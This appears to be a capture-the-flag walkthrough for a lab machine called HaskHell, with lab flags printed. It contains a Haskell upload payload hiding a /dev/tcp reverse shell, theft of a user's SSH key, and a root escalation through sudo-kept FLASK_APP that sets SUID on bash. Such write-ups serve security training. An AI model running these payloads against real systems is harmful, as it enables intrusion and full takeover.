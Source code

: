 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5001 | HTTP    |



# RECONNAISSANCE
---


We can begin by visiting the web application:

![Pasted image 20250404151817.png](../../IMAGES/Pasted%20image%2020250404151817.png)


If we go to the homework section, we can see the following:


![Pasted image 20250404152029.png](../../IMAGES/Pasted%20image%2020250404152029.png)

We can go to the link and it will take us here:

![Pasted image 20250404152050.png](../../IMAGES/Pasted%20image%2020250404152050.png)

If we fuzz, we can find the submit directory in which we can upload a `haskell` file:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.110.142:5001/FUZZ" -ic -c -t 200\

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.110.142:5001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
submit                  [Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 655ms]

```


A Haskell file (with theÂ `.hs`Â extension) is a text file containing code written in the Haskell programming language, a purely functional, statically typed language. These files are used to define functions, data types, and program logic. When compiled or interpreted, the code is executed to perform tasks.

Based on that, we can begin exploitation.


# EXPLOITATION
---


Ok, if we read the homework section, we can find the indications on how to upload the Haskell file:

```
1) A function called "fib" that outputs the Fibonacci sequence. I will be checking for the first 100 numbers formatted as "1 1 3 ...".

2) A function called "range" that takes 2 numbers and returns a flat list containing all the integers in that range. Example: range 1 5 outputs [1,2,3,4,5]

3) A function called "grey" that takes a number as input and returns all of the codes for that n-bit number. Ex: grey 3 outputs ['000','001','011','010',110,111,101,100]. You can find more information about grey codes here: https://en.wikipedia.org/wiki/Gray_code" 
```


Nice, if we follow the instructions, we can create a payload to receive a reverse shell:

```haskell
module Main where

import System.Process

-- Homework functions (required to pass checks)
fib :: Int -> Int -> [Int]
fib a b = take 100 $ a : b : zipWith (+) (fib a b) (tail (fib a b))

range :: Int -> Int -> [Int]
range x y = [x..y]

grey :: Int -> [String]
grey n
    | n <= 0    = [""]
    | otherwise = map ('0':) prev ++ map ('1':) (reverse prev)
    where prev = grey (n-1)

-- Reverse shell payload (adjust IP/PORT)
main :: IO ()
main = callCommand "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

If we upload the file, and set up our listener, we can see the following:

![Pasted image 20250404152827.png](../../IMAGES/Pasted%20image%2020250404152827.png)

There we go, we got our shell. Let's start privilege escalation.




# PRIVILEGE ESCALATION
---


Let's begin by stabilizing the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read user.txt now:

```
flask@haskhell:/home/prof$ cat user.txt
flag{academic_dishonesty}
```

We can grab the `id_rsa` from `prof` and log into ssh:

![Pasted image 20250404153210.png](../../IMAGES/Pasted%20image%2020250404153210.png)


If we check our sudo privileges, we can notice this:

```
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

Let's read the script:

```python
prof@haskhell:~$ cat /usr/bin/flask

#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )
```


- TheÂ `FLASK_APP`Â environment variable is preserved due toÂ `env_keep`Â in the sudoers configuration. 
- By pointingÂ `FLASK_APP`Â to a malicious script, Flask executes it as root whenÂ `sudo flask run`Â is called.
- This bypasses restrictions because the script runs in the context of the Flask process (owned by root).

So, we can do the following:

1. Create a malicious file with the following contents:

```python
import os
os.system('chmod u+s /bin/bash')  # Set SUID bit on /bin/bash
```

2, Set the environment variable:

```
export FLASK_APP=exploit.py
```

3. Run flask as root:

```
sudo /usr/bin/flask run
```

We can see the following:

![Pasted image 20250404154306.png](../../IMAGES/Pasted%20image%2020250404154306.png)

There we go, we got our root shell and can finally read `root.txt`:

```
bash-4.4# cat /root/root.txt
flag{im_purely_functional}
```

![Pasted image 20250404154405.png](../../IMAGES/Pasted%20image%2020250404154405.png)

